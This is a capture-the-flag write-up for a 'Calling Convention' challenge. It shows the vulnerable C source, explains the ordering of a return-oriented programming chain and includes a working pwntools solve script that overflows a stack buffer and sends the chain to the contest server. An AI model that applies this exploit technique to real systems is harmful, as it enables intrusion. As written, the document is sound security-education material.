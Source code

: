 # Calling Convention

When I competed in Bearcat World Tour CTF 2025 I came across this challenge towards the end of the ctf. This challenge provide the full C source code conveniently (although it was absolutely not necessary to complete this challenge).

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>


void store_a_charstar();
void menu();
void vuln();
void store_floats();
int key1 = 0;
int key2 = 0;
int key3 = 0;
int floatcount = 0;

void setup() {
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
}

int main(int argc, char **argv) {
    setup();
    menu();
    vuln();
}

void win() {
    FILE *f;
    char c;
    f = fopen("flag.txt", "rt");
    if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
        fclose(f);
        exit(1);
    }

    while ( (c = fgetc(f)) != EOF ) {
        printf("%c", c);
        fflush(stdout);
    }
    fclose(f);

}
void set_key1() {
    if (key3 != 0)
        key1 = 27000;
}

void ahhhhhhhh() {
    if (key1 == 0)
        return;
    key3 = 0;
    key2 = key2 + 0xbad0000;
}

void food() {
    key2 = key2 + 0xf00d;
}

void number3() {
    key3 = 0x1337;
}

void menu() {
    puts("Try out this new calling convention!");
    puts("Instead of calling functions directly, you just return to them instead!");
    printf(" > ");
}

void vuln() {
    fflush(stdout);
    char s[8];
	fgets(s, 0x200, stdin);
}
```

This challenge immediately looks pretty straightforward, the vulnerablility is even labled. Simply pass 12 bytes to overflow 's' then the memory location of win(). 

However, the win function checks three keys which are checked before reading the flag. This means we will have to build a very simple ROP chain to set the keys to their expected values before calling the win function. Luckly, this is about as easy as any ROP challenge gets as we just need to figure out what functions need to be run and place their memory addresses after the overflow sequentially. 

```C
void win() {
    FILE *f;
    char c;
    f = fopen("flag.txt", "rt");
    if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
        fclose(f);
        exit(1);
    }

    while ( (c = fgetc(f)) != EOF ) {
        printf("%c", c);
        fflush(stdout);
    }
    fclose(f);

}
void set_key1() {
    if (key3 != 0)
        key1 = 27000;
}

void ahhhhhhhh() {
    if (key1 == 0)
        return;
    key3 = 0;
    key2 = key2 + 0xbad0000;
}

void food() {
    key2 = key2 + 0xf00d;
}

void number3() {
    key3 = 0x1337;
}
```

Looking at these three functions we see that we need to set key3 first so that we are able to set key1 which is required to set key 2. Then key3 needs to be set again as it is set to 0 while setting key2. The functions need to be called in the following order.

```C
number3();
set_key1();
ahhhhhhhh();
food();
number3();
win();
```

After going into ghidra to check the offsets of each of these functions my solve script looked something like this:
```python
from pwn import remote
from pwn import *
# Define the offsets for the keys
win = 0x004012f3
key3 = 0x00401404
key1 = 0x00401397
key2_1 = 0x004013b6
key2_2 = 0x004013e8
def run(conn, payload: bytes):
    conn.sendlineafter("> ", payload)  # Send the payload
    response = conn.recv(1024)  # Read output of remote
    print(response.decode())
    
def solvefunction():
    # Create the payload with the necessary sequence of offsets (keys)
    # Use p64 to pack the addresses as 64-bit little-endian values
    solution = b'A' * 12 + p64(key3) + p64(key1) + p64(key2_1) + p64(key2_2) + p64(key3) + p64(win)
    return solution

# Connect to the remote service
conn = remote("chal.bearcatctf.io", 39440)
payload = solvefunction()
run(conn, payload)
 
conn.interactive()
```
This produced the flag for a quick 500 point solve. 